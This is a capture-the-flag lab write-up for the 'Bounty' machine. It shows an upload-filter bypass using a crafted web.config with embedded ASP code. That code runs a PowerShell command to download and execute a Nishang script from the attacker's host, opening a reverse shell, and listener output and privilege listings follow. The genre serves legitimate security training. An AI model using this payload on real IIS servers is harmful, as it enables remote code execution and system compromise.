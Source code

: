 Oh, apparently the uploaded file isn't there because there's a regular job that clears out that directory. If I check it immediately after uploading, the file is there!

`transfer.aspx` allows the `.config` file extension. I configure Nishang's PowerShell script in my web server and upload the following `web.config`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.21/x.ps1')")
%>
```

This works:

```powershell
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.93] 49162
whoWindows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
bounty\merlin
```

Note: the `user.txt` flag was hidden, so I needed to do `ls -force` to view it. Maybe I should just get in the habit of always using `-force`?

## Privilege Escalation

```powershell
PS C:\users\merlin\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
